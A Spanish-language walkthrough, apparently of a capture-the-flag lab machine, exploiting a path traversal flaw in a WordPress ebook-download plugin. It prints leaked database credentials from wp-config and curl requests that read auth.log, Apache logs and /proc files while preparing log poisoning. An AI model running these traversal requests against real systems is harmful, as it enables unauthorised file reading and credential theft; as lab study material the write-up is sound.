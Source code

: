   26   │ define( 'DB_USER', 'wordpressuser' );
  27   │ 
  28   │ /** MySQL database password */
  29   │ define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

asi que ahora que ya intentamos mucho, podemos listar archivos pero no tenemos gran alcance, asi que intentaremos log poisoning

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../var/log/auth.log"

vemos los logs de apache

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../var/log/apache2/acces.log"

y no obtenemos nada asi que intentamos con las rutas /proc/net/tcp o /proc/net/arp, hay algunas rutas mas que nos servirian en proc
podemos buscar por shetstat

- find /proc -name \ *stat

empezamos a buscar por proc ( /proc), algo que tenga la palabra stat (-name \ *stat)

- find /proc -name \ * stat | less

revisamos en nuestro sistema /proc/stat o /proc/schedstat y esto nos podria listar algunos procesos corriendo en nuestro systema
asi que probamos con:

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/schedstat"

- sudo curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/stat"

y no vemos mucho asi que ahora buscamos por debug

- find /proc -name \ * debug \ * | less

/proc/sys/debug
/proc/sys/dev/cdrom/debug
/proc/scsi/sg/debug
/proc/dynamic_debug

y nos da esas 4 rutas que lanzaremos como vimos recientemente mientras, seguimos reviando en proc y hay muchos directorios con numeros
asi que vamos a

- ls /proc/100

y dentro hay un archivo cmdline, le hacemos un cat y esta vacio, el cmdline lo vemos en todos lo identificadores que pillamos
También está el selfcarpeta, que es un enlace simbólico al pid del proceso actual. Nuevamente, desde mi VM:

- ls -l /proc/self
lrwxrwxrwx 1 root root 0 Apr 18 21:38 /proc/self -> 85664

En cada carpeta numerada, el archivo cmdline tiene el usuario de la línea de comando para ejecutar el proceso: 
